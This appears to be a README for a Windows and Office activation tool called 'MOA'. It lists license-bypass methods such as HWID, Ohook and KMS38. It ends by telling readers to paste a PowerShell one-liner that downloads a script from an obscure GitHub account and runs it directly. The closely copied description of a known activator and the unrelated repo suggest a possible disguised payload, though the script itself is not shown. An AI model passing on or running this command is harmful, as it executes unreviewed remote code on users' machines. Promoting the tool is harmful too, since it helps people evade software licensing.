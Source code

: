 ![moa2](https://github.com/user-attachments/assets/e3b9da9f-86f9-4692-b0f9-32dd1e88fd2e)
![MOA](https://github.com/user-attachments/assets/5851bf75-870c-43d9-ac33-9cd090604aee)
# Microsoft Offices Activator (MOA)

A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections
Features
HWID (Digital License) Method to Permanently Activate Windows
Ohook Method to Permanently Activate Office

KMS38 Method to Activate Windows/Server Till the Year 2038

Online KMS Method to Activate Windows/Server/Office For 180 Days (Lifetime With Renewal Task)

Advanced Activation Troubleshooting

$OEM$ Folders For Preactivation

Change Windows Edition

Check Windows/Office Activation Status

Available in All In One and Separate Files Versions

Fully Open Source and Base

# PowerShell

Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).

Copy and paste the code below and press enter

# irm https://raw.githubusercontent.com/0x3c62723e/MOA/main/git.ps1 | iex
